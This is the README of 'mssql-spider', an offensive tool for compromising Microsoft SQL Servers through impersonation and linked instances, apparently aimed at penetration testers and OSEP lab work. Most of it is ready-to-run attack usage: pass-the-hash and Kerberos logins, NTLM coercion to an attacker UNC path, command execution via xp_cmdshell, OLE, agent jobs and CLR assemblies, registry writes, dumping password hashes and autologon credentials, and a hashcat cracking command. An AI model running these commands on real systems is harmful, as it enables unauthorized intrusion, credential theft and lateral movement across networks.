 # mssql-spider

![Screenshot](./assets/demo.png)

An improved [impacket-mssqclient](https://github.com/fortra/impacket/blob/master/examples/mssqlclient.py) that exploits impersonation and linked instances to discover and compromise as many Microsoft SQL Servers as it can reach.
For example, it can solve the OSEP Lab Challenge 2 automatically.

Big thanks to the developers of fortra/impacket#1397, [SQLRecon](https://github.com/skahwah/SQLRecon) and [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) on which this project is based.

# Setup

a) With [pipx](https://github.com/pypa/pipx).

~~~ bash
pipx install git+https://github.com/dadevel/mssql-spider.git@main
~~~

b) With [pip](https://github.com/pypa/pip).

~~~ bash
pip install --user git+https://github.com/dadevel/mssql-spider.git@main
~~~

If you want the latest features replace `@main` with `@unstable`.

# Usage

Authenticate as local user and enumerate recursively.

~~~ bash
mssql-spider db01.corp.local -u jdoe -p passw0rd
~~~

Authenticate as domain user via *Pass the Hash* and coerce NTLM authentication from all reachable hosts trough `xp_dirtree`.
This does not require privileged access.

~~~ bash
mssql-spider ./mssql-servers.txt -d corp.local -u jdoe -H b9f917853e3dbf6e6831ecce60725930 --coerce-dirtree '\\attacker.corp.local\test'
~~~

Authenticate via Kerberos and execute a command trough `xp_cmdshell` on all hosts where you can obtain sysadmin privileges.

~~~ bash
export KRB5CCNAME=./jdoe.ccache
mssql-spider db01.corp.local:50123 db02.corp.com:1433 -k -n -x 'whoami /groups'
~~~

Load and execute a .NET assembly with sysadmin privileges.
The first argument is the path to the DLL.
The second argument is the name of the function to call.
All following arguments are passed to the function as `SqlString`.
The C# code for an exemplary DLL can be found at [SharpProcedure.cs](./extras/SharpProcedure.cs).

~~~ bash
mssql-spider db01.corp.local -u jdoe -p passw0rd --exec-clr ./SharpProcedure.dll Run cmd.exe '/c echo %USERNAME%'
~~~

Dump secrets, then crack password hashes of database users with [hashcat](https://github.com/hashcat/hashcat).

~~~ bash
mssql-spider db01.corp.local -u jdoe -p passw0rd --dump-hashes --dump-jobs --dump-autologon
hashcat -O -w 3 -a 0 -m 1731 --username ./hashes.txt ./rockyou.txt
~~~

Detailed help:

~~~
positional arguments:
  HOST[:PORT]|FILE

options:
  -h, --help                                              show this help message and exit
  --depth UINT                                            default: 10
  --threads UINT                                          default: based on CPU cores
  --timeout SECONDS                                       default: 5
  --debug                                                 write verbose log to stderr

authentication:
  -d DOMAIN, --domain DOMAIN                              implies -w
  -u USERNAME, --user USERNAME
  -p PASSWORD, --password PASSWORD
  -n, --no-pass                                           disable password prompt, default: false
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH            authenticate via pass the hash
  -a HEXKEY, --aes-key HEXKEY                             authenticate with Kerberos key in hex, implies -k
  -w, --windows-auth                                      use windows instead of local authentication, default: false
  -k, --kerberos                                          authenticate via Kerberos, implies -w, default: false
  -K ADDRESS, --dc-ip ADDRESS                             FQDN or IP address of a domain controller, default: value of -d
  -D NAME, --database NAME

enumeration:
  -q SQL, --query SQL                                     execute SQL statement, unprivileged, repeatable
  --sysinfo                                               retrieve database and OS version, unprivileged

coercion:
  -c UNCPATH, --coerce-dirtree UNCPATH                    coerce NTLM trough xp_dirtree(), unprivileged
  --coerce-fileexist UNCPATH                              coerce NTLM trough xp_fileexist(), unprivileged
  --coerce-openrowset UNCPATH                             coerce NTLM trough openrowset(), privileged

filesystem:
  --file-read REMOTE                                      read file trough openrowset(), privileged
  --file-write LOCAL REMOTE                               write file trough OLE automation, privileged

execution:
  -x COMMAND, --exec-cmdshell COMMAND                     execute command trough xp_cmdshell(), privileged
  --exec-ole COMMAND                                      execute blind command trough OLE automation, privileged
  --exec-job sql|cmd|powershell|jscript|vbscript COMMAND  execute blind command trough agent job, privileged, experimental!
  --exec-clr ASSEMBLY FUNCTION [ARGS ...]                 execute .NET DLL, privileged

registry:
  --reg-read HIVE KEY NAME                                read registry value, privileged, experimental!
  --reg-write HIVE KEY NAME TYPE VALUE                    write registry value, privileged, experimental!
  --reg-delete HIVE KEY NAME                              delete registry value, privileged, experimental!

credentials:
  --dump-hashes                                           extract hashes of database logins, privileged
  --dump-jobs                                             extract source code of agent jobs, privileged
  --dump-autologon                                        extract autologon credentials from registry, privileged
~~~

## Usage as library

~~~
❯ python3
>>> from mssql_spider.client import MSSQLClient
>>> client = MSSQLClient.connect('192.168.118.140', 1433)
>>> client.login(username='webapp11', password='redacted', windows_auth=False)
>>> client.enum_links()
{'SQL11\\SQLEXPRESS': {'local_login': 'NULL', 'remote_login': 'NULL'}, 'SQL27': {'local_login': 'webapp11', 'remote_login': 'webappGroup'}, 'SQL53': {'local_login': 'webapp11', 'remote_login': 'testAccount'}}
>>> linked_instance = client.use_rpc_link('SQL27')
>>> linked_instance.whoami()
{'host': 'sql27', 'login': 'sa', 'user': 'dbo', 'roles': {'db_denydatareader', 'dbcreator', 'db_datareader', 'public', 'db_denydatawriter', 'db_accessadmin', 'setupadmin', 'serveradmin', 'db_backupoperator', 'diskadmin', 'bulkadmin', 'db_owner', 'securityadmin', 'sysadmin', 'db_datawriter', 'processadmin', 'db_ddladmin', 'db_securityadmin'}}
~~~
